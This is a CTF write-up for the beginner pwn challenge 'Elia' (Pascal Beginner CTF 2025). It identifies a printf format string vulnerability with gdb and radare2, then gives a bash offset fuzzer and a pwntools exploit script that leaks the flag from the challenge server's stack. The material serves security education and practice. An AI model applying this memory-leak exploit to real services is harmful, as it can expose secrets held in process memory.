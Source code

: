 # Elia (pwn2) - Pascal Beginner CTF 2025

# Analyze
Binary is very simple, it takes a string as input and prints it.
```
benjamin@hacking:elia$ ./elia 
Wow, it actually compiled! Do you want to write something?
hello
hello
```

Lets analyze it better with gdb
```c
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  fclose@plt
0x0000000000001050  __stack_chk_fail@plt
0x0000000000001060  printf@plt
0x0000000000001070  alarm@plt
0x0000000000001080  fgets@plt
0x0000000000001090  signal@plt
0x00000000000010a0  setvbuf@plt
0x00000000000010b0  fopen@plt
0x00000000000010c0  exit@plt
0x00000000000010d0  _start
0x00000000000011c9  init
0x000000000000122a  handle_alarm
0x000000000000124e  main
0x000000000000135c  _fini
```

We don't have any exotic functions to analyze, so let's analyze the main with radare2.
```
 0x0000131d      488d45d0       lea rax, [format]
│     ││    0x00001321      be1e000000     mov esi, 0x1e               ; int size
│     ││    0x00001326      4889c7         mov rdi, rax                ; char *s
│     ││    0x00001329      e852fdffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│     ││    0x0000132e      488d45d0       lea rax, [format]
│     ││    0x00001332      4889c7         mov rdi, rax                ; const char *format
│     ││    0x00001335      b800000000     mov eax, 0
│     ││    0x0000133a      e821fdffff     call sym.imp.printf         ; int printf(const char *format)
│     ││    0x0000133f      b800000000     mov eax, 0
```

printf doesn't specify the format so we have a format string vuln.
```
benjamin@hacking:elia$ ./elia 
Wow, it actually compiled! Do you want to write something?
%p
0x7b6161211963
```

# Solve
We can leak memory by reading the stack, but where on the stack is the flag located?

We can write a `fuzzer` that finds the stack offset at which the program starts saving the flag.
```bash
#!/bin/bash

for i in $(seq 100)
do
echo "Offset $i : %$i\$p" | ./elia
done
```

Which combined with `| grep "63736170"`, where 63736170 are the first 8 bytes of the format flag in hex little endian (backwards) returns precisely the offset, i.e. 8
```
benjamin@hacking:elia$ ./fuzzer.sh | grep "63736170"
Offset 8 : 0x54436c6163736170
```

Since we can read a maximum of 8 bytes at a time, we need to read about `5 consecutive offsets` starting from the 8th and we have the flag!

# Script
```py
from pwn import *

exe = context.binary = ELF(args.EXE or 'elia')
context.log_level = 'critical'

HOST = "elia.challs.pascalctf.it"
PORT = 1339

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(HOST, PORT)
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
    

gdbscript = '''
tbreak main
continue
'''.format(**locals())


leaked_memory = b""
i = 0

for i in range(5):
    io = start()

    welcome_message = io.recvuntil(b"something?\n")

    io.sendline(f"%{8+i}$p".encode())
    
    try:
        leaked_memory += bytes.fromhex(io.recvline().decode().replace("0x", ""))[::-1]
    except:
        pass
    
    try:
        log.critical(f"Memory Leaked Successfully: {leaked_memory}")
    except:
        exit(1)

    i += 1
    
    io.close()
    if "}" in leaked_memory.decode():
        log.critical(f"Flag: {leaked_memory.decode()}")
```
